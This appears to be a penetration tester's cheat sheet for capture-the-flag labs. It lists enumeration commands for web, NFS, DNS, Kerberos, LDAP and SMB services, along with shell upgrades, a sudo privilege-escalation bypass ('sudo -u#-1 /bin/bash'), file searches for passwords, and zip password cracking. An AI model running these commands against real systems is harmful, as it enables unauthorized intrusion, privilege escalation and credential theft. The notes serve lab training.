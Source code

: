 Initial recon 
nmap -p- -sV -A -Pn 10.10.10.10
http/https_open?:
```
	-gobuster
	-content discovery via burp
	-wfuzz -c -w /root/xPayloads/SecLists/Discovery/Web-Content/common.txt --hc 404,403 -u "http://example.com/FUZZ.txt" -t 100
	-python3 ./dirsearch.py -u http://10.10.10.175 -e *
	-cewl -w wordlists.txt -d 10 -m 1 http://blunder.htb/
```
users?:
```
	-grab from site About US
	-create user list:
		-John Doe
			-jdoe
			-johndoe
			-john.doe
```
rpc-bind?:
```
	-showmount -e 10.10.10.10.
		-mount -t nfs 10.10.10.100:/site_backups /root/HTB/remote/site_backup
		-grep -iR "admin" ./
```
dns-open?:
```
	-dnsrecon -d 10.10.10.100 -r 10.0.0.0/8
```
kerberos_open?:
```
	-try to bruteforce users, create list from site or try to withdraw from ldap
	-GetNPUsers.py
```
ldap_open?:
```
	-nslookup; server 10.10.10.100 ; 127.0.0.1; 10.10.10.100
	-ldapsearch -x -h 10.10.10.175 -p 389 -s base namingcontexts
	-ldapsearch -x -h 10.10.10.175 -p 389 -b "DC=EGOTISTICAL-BANK,DC=LOCAL"
		-or nmap -p 389 --script ldap-search
```
smb_open?:
	-locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
	-nmap --script safe -p 445 10.10.10.100
	-nmap --script smb-enum-services -p 445 10.10.10.100
	-smbclient -L //10.10.10.100
	-smbmap -H 10.10.10.100
		-smbap -R replication -H 10.10.10.10. -A Groups.xml -q



linux shell:
```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
linux priv esc:
```
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
id 
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
sudo -l
# User privilege specification
root    ALL=(ALL:ALL) ALL
sudo -u#-1 /bin/bash

LinEnum.sh
linuxprivchecker.py
nmap -p- 127.0.0.1
Search password in filses:
-find / -name "*backup*" 2>/dev/null
-find / -name "*users*" 2>/dev/null
-in webapp db or config (google)
```
zip_file?:
```
fcrackzip -D -p rockyou test.zip
```
